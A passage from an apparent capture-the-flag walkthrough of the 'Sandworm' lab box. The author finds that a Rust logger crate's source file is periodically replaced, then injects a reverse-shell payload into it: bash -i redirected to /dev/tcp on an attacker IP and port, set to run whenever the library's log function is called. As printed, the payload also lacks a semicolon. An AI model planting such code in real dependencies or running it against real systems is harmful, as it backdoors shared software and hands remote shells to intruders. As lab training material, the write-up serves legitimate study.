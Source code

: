 ```
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

We wait a few minutes and it's gone. Whaaat?

```
silentobserver@sandworm:/opt/crates/logger/src$ cat lib.rs
cat: lib.rs: No such file or directory
```

A few minutes later the file is back. At least we know that the file is getting edited in some way. Let's try to add a Rust reverse shell. Here is the payload I added:

```
silentobserver@sandworm:/opt/crates/logger/src$ cat lib.rs
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let output = Command::new("bash")
.arg("-c")
.arg("bash -i >& /dev/tcp/10.10.14.163/4444 0>&1")
.output()
.expect("failed to execute process")
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```
